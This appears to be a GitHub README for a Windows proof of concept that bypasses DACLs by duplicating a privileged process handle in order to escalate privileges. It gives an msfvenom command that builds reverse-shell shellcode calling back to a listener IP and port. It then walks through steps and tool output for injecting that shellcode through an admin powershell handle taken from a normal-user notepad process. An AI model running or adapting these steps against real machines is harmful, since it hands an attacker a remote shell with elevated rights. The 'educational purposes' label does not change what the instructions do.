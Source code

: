 # BypassDACL
PoC for Bypass DACL in Windows with DuplicateHandle.
You can read more about this code: https://glory-part-39d.notion.site/Security-of-Handles-in-Windows-caaa2531a0914ef0b7779ea366f69bcb
These codes allow you to create a security hole in your program. You can also use this vulnerability and cause privilege escalation.
**Note that this is a POC and is for educational purposes only**
## Run this code
Generate shellcode for AttackerPE.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.148 LPORT=443 -f c -b \x00\x0a\x0d
copy shellcode to AttackerSource.cpp and compile it.

run powershell.exe with Admin privilege
run notepad.exe with normal-user

run vendor.exe with Admin privilege
Vendor.exe
Enter the Process name that you want get Handle (like powershell.exe): powershell.exe
Enter the target Process name (like notepad.exe): notepad.exe
[+] SeDebugPrivilege enabled successfully.
[+] PID of powershell.exe 8420
[+] Handle of powershell.exe is OK
[*] Run Process Explorer and find handles of notepad.exe then find a handle named powershell.exe
and write address of handle in AttackerPE code...
[*] Sleep(INFINITE) After running AttackerPE.exe for exit this code press Ctrl+C


open **procexp64.exe** and copy address of handle (powershell.exe) from **notepad.exe**
Past address to A
run AttackerPE.exe with normal-user

